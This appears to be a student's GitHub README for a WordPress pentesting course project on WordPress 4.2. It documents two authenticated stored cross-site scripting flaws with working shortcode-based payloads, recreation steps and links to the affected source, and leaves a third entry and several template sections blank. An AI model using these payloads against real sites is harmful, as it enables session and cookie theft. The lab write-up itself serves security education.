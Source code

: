 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.3.1
  - [ ] GIF Walkthrough: ![](xss1.gif)
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```xss1[caption width="100" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(document.cookie)'">Click me</a>```
    - Go to the post and place the mouse cursor over the text "Click me"
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.3.1/src/wp-includes/media.php)
    - [Link 2](https://core.trac.wordpress.org/browser/tags/4.3.1/src/wp-includes/shortcodes.php)
1. (Required) Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: ![](xss2.gif)
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```xss2

<a href="[caption code=">]</a><a title=" onmouseover=alert(document.cookie)  ">Click me</a>```
    - Go to the post and place the mouse cursor over the text "Click me"
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/class-wp-embed.php)
    - [Link 2](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/formatting.php)
    - [Link 3](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/kses.php)
    - [Link 4](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/shortcodes.php)
1. (Required) Authenticated Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.4.1
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/class-wp-theme.php)
    
## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [YongJun Cho] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

